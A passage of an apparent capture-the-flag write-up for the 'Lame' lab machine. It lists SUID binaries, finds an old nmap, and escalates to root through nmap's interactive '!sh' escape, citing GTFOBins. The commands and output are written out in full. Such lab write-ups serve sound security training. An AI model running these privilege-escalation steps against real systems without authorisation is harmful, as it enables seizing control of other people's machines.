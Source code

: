 ```
daemon@lame:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
<snip>
/usr/bin/nmap
```

Exploit with [GTFOBins nmap](https://gtfobins.github.io/gtfobins/nmap/#shell)

Check nmap version

```
daemon@lame:/root$ /usr/bin/nmap -V
/usr/bin/nmap -V

Nmap version 4.53 (http://insecure.org)
```

Execute nmap to get root

```
/bin/sh -i
/usr/bin/nmap --interactive
nmap> !sh
```

![](images/7.png)

## Reference

[https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable](https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable)